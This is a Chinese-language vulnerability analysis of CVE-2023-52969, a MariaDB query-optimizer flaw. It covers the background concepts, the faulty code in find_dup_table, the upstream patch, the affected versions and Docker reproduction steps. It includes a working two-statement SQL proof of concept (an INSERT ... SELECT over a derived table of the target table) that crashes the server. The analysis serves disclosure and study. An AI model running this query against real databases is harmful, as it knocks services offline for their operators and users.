



# CVE-2023-52969 CWE-1038 MariaDB DoS

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **查询优化器：**数据库系统中的核心组件之一，负责在接收到 SQL 查询后，根据表结构、索引、统计信息等，生成多种可行的执行计划，并选择其中最优的一种以提高查询效率。优化器通常考虑连接顺序、索引使用、表访问方式（如全表扫描、索引扫描）等因素，有时还会对子查询进行重写或合并，从而减少计算量和 I/O 开销。它直接影响数据库的性能表现，是数据库执行引擎与用户查询之间的重要桥梁。
- **派生表（Derived Table）：**在 SQL 查询中，使用子查询生成的临时表，它存在于 FROM 子句中，语法上通常写作  (SELECT ...) AS 别名。派生表在执行过程中不会永久存储，而是根据需要在查询中动态生成，其作用是将复杂逻辑封装为中间结果，供外层查询使用。派生表可以被合并或物化，优化器会根据上下文和语义选择合适策略，以确保正确性和性能的平衡。
- **合并（Merge）：**数据库优化器处理子查询或派生表时的一种策略，它将子查询的执行计划直接“内联”进外层查询中，就像子查询的内容写在外层查询里一样执行。这样可以减少中间结果的生成，提高查询性能。合并通常用于语义清晰、无副作用的子查询（如不依赖外部引用、无重复使用等），与物化相对，其优点是执行效率高，但在某些情况下（如子查询与主查询存在表名冲突或需要独立求值）则无法使用，需要改用物化。
- **物化（Materialization）：**数据库查询优化中的一种策略，指的是在执行查询时，将某些子查询（如派生表、CTE）先执行一次并将结果保存为临时表，供后续查询使用。这种方式通常用于避免重复计算、解决依赖冲突，或在不能合并子查询的情况下确保语义正确。相对于“合并（merge）”策略，物化会增加内存或磁盘开销，但能保证在复杂引用场景下（如目标表与子查询重名）依然能够正确处理数据。
- **CWE-1038（Insecure Automated Optimizations）：**不安全的自动优化。指的是软件在自动执行性能或功能优化时，没有充分考虑安全性，导致优化过程引入逻辑错误或安全漏洞，从而使攻击者能够利用这些不正确或不安全的优化行为，触发崩溃、数据篡改或绕过安全检查等问题，典型案例包括数据库查询优化器错误处理外部引用导致崩溃。

## 漏洞原理

特定版本的 MariaDB 优化器在处理 `INSERT ... SELECT` 时会尝试合并（merge）派生表，之后如果检测到目标表出现在 SELECT 子句中的派生表（derived table）中，即目标表被同时用于写入与读取，这时就会把该派生表从合并模式切换为物化模式（materialize）， 即提前执行派生查询并缓存结果。但是优化器忘记了同步更新描述这个派生表的元数据（比如它包含多少个字段），这会引起 MariaDB 优化器处理过程中的内部状态不一致，使得下游函数拿到了过时的、错误的信息，并根据这个错误信息去操作内存，最终导致崩溃。

## 漏洞定位

在 **sql\sql_base.cc** 文件，第 **1104** 行，`find_dup_table`函数是 MariaDB 中处理 SQL 中表引用冲突检测的核心函数之一。它的作用是在执行`INSERT INTO t SELECT ... FROM`这类语句时，检测目标表是否也被包含在了查询（如派生表、子查询）中，以避免出现逻辑混乱甚至崩溃。

其中第 1200 行的判断语句用于检查是否发现冲突，并且该冲突与一个派生表有关。在其中的 **1214** 行，当目标表（例如 `t1`）在派生表（如 `SELECT * FROM (SELECT * FROM t1) as tmp`）中被引用，并且该派生表是合并派生表时，为了避免递归引用冲突，就调用`set_materialized_derived`函数强制把该派生表从合并模式切换为物化模式。

但是，在这里执行了 `set_materialized_derived()` 后，**没有及时更新临时表字段参数**，即`JOIN::tmp_table_param` 这个结构体。这是**漏洞点**所在。在之后的处理中，下游函数拿到了过时的、错误的信息，并根据这个错误信息去操作内存，导致崩溃。

```c
// sql\sql_base.cc   find_dup_table 函数中

// 1200 行，检查是否发现冲突，并且该冲突与一个派生表有关，res 表示发现了一个表名冲突
if (res && res->belong_to_derived)
  {
    // 获取这个引发冲突的派生表
    TABLE_LIST *derived=  res->belong_to_derived;
    // 检查优化器原计划是否要“合并”这个派生表
    if (derived->is_merged_derived() && !derived->derived->is_excluded())
    {
      DBUG_PRINT("info",
                 ("convert merged to materialization to resolve the conflict"));
        // 准备切换执行计划，更新表达式树的引用
      derived->change_refs_to_fields();
// ***** 1214 行 ********** 将执行计划从“合并”改为“物化” **************** 漏洞点 *************
      derived->set_materialized_derived();
        // 跳转到重试标签，让优化器基于新计划重新进行分析
      goto retry;
    }
  }
```

## 漏洞修复


优化器准备切换执行计划时，必须立即更新已经过时的元数据。

在 `sql/sql_base.cc` 的 `find_dup_table()` 中，读写冲突会迫使 `INSERT ... SELECT` 查询将派生表从合并模式切换为物化模式。其他情况也可能触发该切换，例如子查询包含不可合并的结构，或者优化器判断物化复杂子查询更合适。`sql/sql_derived.cc` 中的 `mysql_derived_merge()`、`mysql_derived_optimize()` 等路径都会在特定条件下调用 `set_materialized_derived()`。

补丁在这些路径调用 `set_materialized_derived()` 前更新临时表参数 `tmp_table_param`。它通过 `count_field_types()` 遍历 `SELECT` 列表中的 `Item` 对象，重新计算临时表所需的字段及函数数量并更新 `TMP_TABLE_PARAM`，确保切换到物化模式后相关结构与新状态保持一致。

```c
/*
    Update JOIN::tmp_table_param to reflect new number of fields and functions
*/
// Retrieves the SELECT clause object of the derived table that triggered the problem
  SELECT_LEX *sl= derived->select_lex;
// Recount field information and update the outdated metadata structure
  count_field_types(sl, &sl->join->tmp_table_param,
                    sl->join->all_fields, 0);
```

## 影响范围


**受影响的版本：**

- MariaDB 10.4.x 至 10.5.x
- MariaDB 10.6.x
- MariaDB 10.7.x 至 10.11.x
- MariaDB 11.0.x

**影响组件：** 查询优化器，尤其是聚合处理逻辑

## 环境搭建

Docker 环境中 MariaDB 版本为 10.11.5，管理员为 root，密码为 12345，存在一个数据库 test_db。



## 漏洞复现

1. 进入容器命令行；

   ```bash
   docker exec -it mariadb-10.11.5 bash
   ```

2. 使用 root 用户连接 MariaDB 的 test_db 数据库，密码为 12345；

   ```bash
   mariadb -u root -p test_db
   ```

3. 依次执行下面两行 SQL 命令后，可以看到 MariaDB 崩溃并退出容器；

   ```sql
   CREATE TABLE t1 (i int);
   
   INSERT INTO t1 SELECT (SELECT min(dt.a) FROM (SELECT 1 as a FROM t1) dt ORDER BY i, dt.a) FROM t1 tb;
   ```

   

4. 查看容器日志，可以看到 MariaDB 服务进程（`mysqld`）收到了信号 11（SIGSEGV），即段错误（Segmentation Fault），说明程序试图访问未分配或非法的内存地址，导致崩溃。

   ```bash
   docker logs mariadb-10.11.5
   ```

   

## PoC分析

```sql
-- 创建表格 t1，其包含一个整型字段 i
CREATE TABLE t1 (i int);
```

遍历表 `t1`，并且每遍历到一行，就向 `t1` 自己再插入一个新行，这是一个会导致无限循环的逻辑。关键在于在向 `t1` 表插入数据的同时，又从 `t1` 表自己这里读取数据来作为插入内容，产生一个读写冲突。

MariaDB 的优化器看到子查询 `(SELECT ... FROM t1)` 时，会将它“合并”到主查询中，这样效率最高。但它紧接着就发现了上述的读写冲突。为了保证安全，其需要改变计划：先将子查询的结果完整生成并存放到一个临时的“物化”表中，然后再进行下一步。但是其忘记了同步更新与此计划相关的内部元数据，从而引发了后续的内存访问错误和系统崩溃。

```sql
-- 从表 t1 中取每一行（别名为 tb）执行一个 SELECT 子查询，插入结果到 t1
INSERT INTO t1
SELECT (
    -- 对 dt.a 取最小值（即固定是 1）
  SELECT min(dt.a)
    -- 使用一个派生表 dt，对于 t1 表中的每一行，它都生成一个值为 1 的列，并命名为 a
  FROM (
    SELECT 1 as a FROM t1
  ) dt
    -- 排序使用了外层 t1.tb 的字段 i，dt.a 是派生表中的字段。
  ORDER BY i, dt.a
) 
FROM t1 tb;
```

## 参考链接


[NVD - CVE-2023-52969](https://nvd.nist.gov/vuln/detail/CVE-2023-52969)

[[MDEV-32084\] Assertion in best_extension_by_limited_search(), or crash elsewhere in release build - Jira](https://jira.mariadb.org/browse/MDEV-32084)

[MDEV-32083 Insertion: If the target table appears in the derived table, SELECT will crash. By Olernov · Pull request #3924 · MariaDB/Server --- MDEV-32083 INSERT: SELECT crashes if target table appears in a derive… by Olernov · Pull Request #3924 · MariaDB/server](https://github.com/MariaDB/server/pull/3924)

[MDEV-32083 INSERT..SELECT crashes if target table appears in a derive… by Olernov · Pull Request #3924 · MariaDB/server](https://github.com/MariaDB/server/pull/3924/commits/316a13a73729b3f967922e5dfb18e99ab233d8d1)
